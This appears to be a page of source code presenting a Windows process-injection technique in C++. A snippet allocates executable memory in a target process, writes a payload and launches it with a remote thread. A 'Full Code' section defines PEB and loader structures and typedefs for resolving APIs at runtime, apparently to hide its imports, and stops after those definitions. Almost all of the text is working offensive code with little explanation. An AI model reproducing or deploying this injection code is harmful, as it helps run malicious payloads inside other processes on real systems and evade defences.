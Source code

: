 Allocates memory in the target process, writes the payload, and creates a thread to execute it.

```cpp
pVAEx = (VAExType)ptrGetProcAddress(kernel32Base, (LPCSTR)A);
                pRemoteCode = pVAEx(hProcess, NULL, p_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                pWPM = (WPMType)ptrGetProcAddress(kernel32Base, (LPCSTR)B);
                pWPM(hProcess, pRemoteCode, (PVOID)code, (SIZE_T)p_len, (SIZE_T*)NULL);
                pCRT = (CRTType)ptrGetProcAddress(kernel32Base, (LPCSTR)C);
                hThread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

                if (hThread != NULL) {
                    WaitForSingleObject(hThread, 500);
                    CloseHandle(hThread);
                    return 0;
                }
```

## Full Code
```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <iostream>
#include <windows.h>
#include <psapi.h>


typedef struct _UNICODE_STRING { USHORT Length; USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;

typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID      DllBase;
    PVOID      EntryPoint;
    ULONG      SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG      Flags;
    USHORT     LoadCount;
    USHORT     TlsIndex;
    LIST_ENTRY HashLinks;
    PVOID      SectionPointer;
    ULONG      CheckSum;
    ULONG      TimeDateStamp;
    PVOID      LoadedImports;
    PVOID      EntryPointActivationContext;
    PVOID      PatchInformation;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

typedef struct _PEB_LDR_DATA { ULONG Length; BOOLEAN Initialized; HANDLE SsHandle; LIST_ENTRY InLoadOrderModuleList; LIST_ENTRY InMemoryOrderModuleList; LIST_ENTRY InInitializationOrderModuleList; } PEB_LDR_DATA, * PPEB_LDR_DATA;
typedef struct _PEB { BOOLEAN InheritedAddressSpace; BOOLEAN ReadImageFileExecOptions;  BOOLEAN BeingDebugged; BOOLEAN SpareBool; HANDLE Mutant; PVOID ImageBaseAddress; PPEB_LDR_DATA Ldr; } PEB, * PPEB;
typedef FARPROC(WINAPI* GETPROCADDRESS)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR);
typedef LPVOID(WINAPI* VAExType)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef BOOL(WINAPI* WPMType)(HANDLE  hProcess, LPVOID  lpBaseAddress, LPCVOID lpBuffer, SIZE_T  nSize, SIZE_T* lpNumberOfBytesWritten);
```